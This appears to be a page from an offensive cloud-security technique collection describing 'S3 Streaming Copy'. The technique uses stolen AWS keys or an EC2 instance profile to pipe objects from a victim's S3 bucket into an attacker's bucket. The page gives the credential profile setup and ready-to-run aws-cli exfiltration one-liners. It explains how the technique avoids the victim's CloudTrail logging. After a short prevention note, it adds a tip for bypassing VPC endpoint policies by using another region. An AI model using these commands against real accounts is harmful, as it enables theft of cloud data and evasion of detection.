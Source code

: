 ```yaml
---
author_name: Houston Hopkins
title: S3 Streaming Copy
description: Utilizng standard out to standard in with aws-cli utilizing multiple profiles to avoid logging and detection in a victim environment
hide:
  - toc
---
```


# S3 Streaming Copy

Shout Out to Janardhan Prabhakara for showing me this all those years ago!

Note: This technique is a Bring Your Own (BYOK) attack. 

Requirements: a shell, terminal session, command prompt, a victim's AWS Access Key or STS token, an attacker AWS key and bucket to land in a separate account.

Why would anyone use this?

In many environments AWS to AWS traffic is largely unfiltered and voluminous. As well, an attacker may find a key that can perform GetObject action on S3, but not PutObject. Or perhaphs, more likely, an attacker would like to hide their exfiltration commands. 

If an attacker lands a shell on an EC2 Instance of the victim, any issued aws commands will be coming from an expected/trusted network which is even less likely to be detected.  However, S3 Streaming Copy techniques can also be used from any terminal with aws-cli.

When this attack is perfomed the S3 GetObject call is recorded in the VICTIM cloudtrail dataevents (if enabled, which is unlikley) But, the S3 PutObject call is recorded in the ATTACKER's cloudtrail.  The VICTIM cannot see the S3 PutObject side of the copy in AWS Cloudtrail.

When using the aws-cli utilize the `--profile` to specify the specific IAM context profile from the .aws/credentials file.

Step 1: setup an profile in .aws/credentials for the ATTACKER credentials. These are credentials from your attacker controlled account aka not the victims credentials
```
[attacker]
aws_access_key_id = <attacker_key_id>
aws_secret_access_key = <attacker_secret_key>
```

Step 2: Create a profile for the VICTIM credentials.  These are the keys attained with access to the victim's AWS enviornment. 

!!! Note
    This step is optional if using a shell on a VICTIM EC2, running an EC2 instance profile that has the permissions to test.
```
[victim]
aws_access_key_id = <victim_key_id>
aws_secret_access_key = <victim_secret_key>
```

Step 3: example: S3 Stream Copy command for a single file from cli
```
aws s3 cp --profile victim s3://victim_bucket/juicy_data.txt - | (aws s3 cp --profile attacker  - s3://attacker_bucket/juicy_data.txt )
```

Step 3: example: S3 Stream Copy command for a single file from cli of an Ec2 instance using the Instance Profile
```
aws s3 cp s3://victim_bucket/juicy_data.txt - | (aws s3 cp --profile attacker  - s3://attacker_bucket/juicy_data.txt )
```

Prevention:
A known, but not very common, way to prevent this is by mandating S3 communication through a VPC Endpoint and [applying a VPC Endpoint Policy](https://docs.aws.amazon.com/whitepapers/latest/building-a-data-perimeter-on-aws/appendix-2-vpc-endpoint-policy-examples.html) that denies any request that does not match the principalOrgId.

This is becoming more common with the popularity of [Data Perimeter](https://docs.aws.amazon.com/whitepapers/latest/building-a-data-perimeter-on-aws/building-a-data-perimeter-on-aws.html) guardrails

!!! Note
    If this technique doesn't work, it is possible there is a VPC Endpoint policy is in place. Try making the ATTACKER destination bucket in another AWS Region as Cross-region calls typically do not traverse a VPC Endpoint.
